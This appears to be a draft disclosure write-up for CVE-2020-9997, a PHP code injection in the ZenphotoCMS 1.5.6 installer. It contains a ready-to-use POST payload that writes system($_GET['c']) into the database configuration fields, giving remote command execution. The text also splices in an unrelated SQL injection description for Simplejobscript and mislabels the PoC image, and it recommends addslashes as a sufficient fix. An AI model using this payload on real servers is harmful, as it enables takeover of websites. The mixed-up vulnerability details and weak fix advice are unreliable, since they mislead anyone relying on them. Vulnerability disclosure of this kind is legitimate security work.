 ```yaml
---
cve: "CVE-2020-9997"
title: "Code injection in ZenphotoCMS v1.5.6 and prior"
date: 2020-02-11
draft: yes
tags:
- code injection
- rce
---
```

An issue was discovered in Simplejobscript.com SJS through 1.66. There is an unauthenticated SQL injection via the job applications search function. The vulnerable parameter is `job_id`. The function is `getJobApplicationsByJobId()`. The file is `_lib/class.JobApplication.php`.

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9997

<hr />

**Description:**  
The installation process is prone to PHP code injection which leads to a remote code execution. The vulnerable POST parameters are:
`db_software`, `db_user`, `db_pass`, `db_host`, `db_database`

**Environment:**  
Version: 1.5.6  
OS: Ubuntu 16.10  
Web server: Apache 2.4.18  
PHP: 7.4.2  
Database: MySQL 5.7.28  
URL: `/zp-core/setup/`  

**Payload:**  
```db=yes&xsrfToken=490edd5bf985248c832425d350602f5bb1c8043d&db_software=MySQLi%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_user=test%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_pass=test&db_host=localhost%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_database=zenphoto%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_prefix=zp_```

**Recommendation:**  
A simple addslashes would do the trick to protect against single and double quotes.

**PoC:**  
![cve-2020-2997](/images/cve-2020-2997.png)
